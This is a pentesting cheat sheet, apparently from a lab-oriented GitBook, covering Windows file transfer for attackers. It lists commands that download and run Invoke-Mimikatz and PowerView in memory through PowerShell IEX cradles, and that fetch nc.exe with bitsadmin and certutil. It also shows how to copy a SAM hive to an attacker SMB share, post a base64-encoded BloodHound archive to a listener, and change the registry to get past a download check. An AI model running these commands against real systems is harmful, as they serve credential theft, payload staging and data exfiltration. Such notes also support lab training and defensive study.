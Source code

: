 # Windows File Transfer

## Smb Server / Mount share

```
smbserver.py -smb2support -username gust -password guest share /root/htb

#Mount 
net use x: \\<IP>\share /user:guest <password>
#Download
cmd /c "copy file.txt X:\"
move sam.save \\10.10.15.16\CompData
```



## PowerShell

### PowerShell Downloads

```
#System.Net.WebClient class can be used to download a file over HTTP.
(New-Object System.Net.WebClient).DownloadFile('http://<IP>:PORT/file.EXT',"C:\Outfile.EXT")

#From PowerShell 3.0 Invoke-WebRequest but slower,
#Alias iwr, curl, wget can be used instead of Invoke-WebRequest
Invoke-WebRequest http://<IP>:PORT/file.Ext -OutFile file.Ext

#Execute Payload directly into memory using Invoke-Expression
#Alias iex
IEX (New-Object Net-WebClient).DownloadString('http://<IP>:PORT/Invoke-Mimikatz.ps1')

#IEX also accepts pipeline input
Invoke-WebRequest https://<IP>:PORT/Invoke-Mimikatz.ps1 | iex
```

{% hint style="danger" %}
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter `-UseBasicParsing`

```
Invoke-WebRequest https://<ip>/PowerView.ps1 | iex
Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand


# FIX
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False

# with administrative access to the machine, we can disable Internet Explorer’s First Run customization
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
{% endhint %}

> Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239). It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

### PowerShell Uploads

```
#Invoke-WebRequest or Invoke-RestMethod
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/Bloodhound.zip' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:433 -Method POST -Body $b64

#after catching 64data with ncat
echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitadmin

### Download

```
#Background Intelligent Transfer Service
#Can download from HTTP sites and SMB shares
bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe

#PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
Import-Module bitstransfer;Start-BitsTransfer -Source "http://<IP>/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Upload

```
start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql        
```

## Certutil

```
#available in all Windows versions
#the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.
certutil.exe -verifyctl -split -f http://<IP>/nc.exe
```


